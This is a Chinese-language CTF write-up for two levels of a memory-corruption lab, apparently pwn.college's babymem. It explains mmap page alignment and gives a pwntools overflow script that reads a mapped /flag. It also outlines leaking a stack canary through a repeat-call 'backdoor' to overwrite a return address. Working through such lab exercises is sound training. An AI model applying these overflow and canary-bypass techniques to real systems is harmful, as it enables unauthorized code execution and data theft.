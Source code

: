 ## level 11

这一关跟上一关一样。唯一不同的是，之前缓冲区是在栈空间上的，现在使用`mmap`(Memory Mapped File)将文件内容映射到进程的地址空间，从而可以像访问内存一样访问文件内容。通过这种方式，可以非常高效地对文件进行操作，特别适用于需要频繁读写大文件的场景。`mmap` 创建的内存映射区域可以被多个进程共享，所以当一个进程修改了映射区域的内容，其他进程可以立即看到这些修改。

当一个进程多次调用` mmap `来创建内存映射区域时，每次调用都会在进程的虚拟地址空间中分配一个新的内存区域，并返回这个区域的起始地址。如果这些内存区域不被解除映射 `(munmap)`，它们将一直存在于进程的地址空间中，直到进程结束。


另外，如果你要求的大小小于0x1000(4096)，通常，mmap 分配的地址会满足页面对齐要求（例如，4KB 页对齐）。所以它可能还是会分配0x1000的大小。

```c
 for ( i = 0; i <= 6; ++i )
    v7 = mmap(0LL, 0x1000uLL, 3, 34, 0, 0LL);
  buf = mmap(0LL, 0x11uLL, 3, 34, 0, 0LL); // 这里buf的大小还是0x1000
```

```asm
Called mmap(0, 0x1000, 4, MAP_SHARED, open("/flag", 0), 0) = 0x7f795e195000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f795e194000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f795e193000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f795e192000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f795e191000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f795e190000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f795e18f000
Called mmap(0, 0x1000, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f795e18e000
Memory mapping the input buffer...
Called mmap(0, 82, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANON, 0, 0) = 0x7f795e18d000
```

所以只需要把payload设置成0x1000*8就行。

```python
from pwn import *

elf = ELF("/challenge/babymem_level11.0")
p = process("/challenge/babymem_level11.0")
buffer_size = 0x1000 * 8
p.sendline(f"{buffer_size}")
payload = buffer_size * "A"
p.send(payload)
p.interactive()
```

## level 12

这一关开启canary保护，不能直接通过缓冲区溢出复写返回地址，因为这样一定会覆盖掉canary的校验值，导致程序后续运行失败。

但是通过反编译以后发现，存在`challenge`的重复调用，这就意味着，我们可以通过第一次challenge的调用后`puts()`打印的回显，获取canary的值。然后在第二次调用中，复写函数的返回地址。这样，在知道`cannary`值的前提下， 不会触发段溢出的报错。还是跟之前一样，因为不是position independent，所以只复写两个字节，然后重试。

```c
  if ( strstr((const char *)buf, "REPEAT") )
  {
    puts("Backdoor triggered! Repeating challenge()");
    return challenge(v9, v8, v7); 
  }
  else
  {
    puts("Goodbye!");
    return 0LL;
  }
```

